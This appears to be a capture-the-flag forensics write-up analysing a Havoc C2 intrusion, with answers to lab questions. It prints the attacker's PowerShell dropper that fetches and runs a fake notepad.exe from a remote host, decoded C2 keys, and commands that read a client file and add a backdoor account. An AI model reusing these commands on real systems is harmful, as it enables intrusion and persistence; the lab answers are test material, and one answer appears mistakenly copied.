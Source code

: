 - **install.ps1**

![[../../Image/Pasted image 20250423091359.png]]

```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```
- **Object list:**
![[../../Image/Pasted image 20250423095009.png]]
- **notepad.exe**
![[../../Image/Pasted image 20250423100437.png]]
- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address:**
- hxxp[:]//10.0.2.37
#### **File:**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![](../../Image/Pasted%20image%2020250423101528.png)

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![[Pasted image 20250422232038.png]]
=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![[Pasted image 20250422232647.png]]

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![[Pasted image 20250422225827.png]]
```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![[Pasted image 20250422232845.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![[Pasted image 20250422232446.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

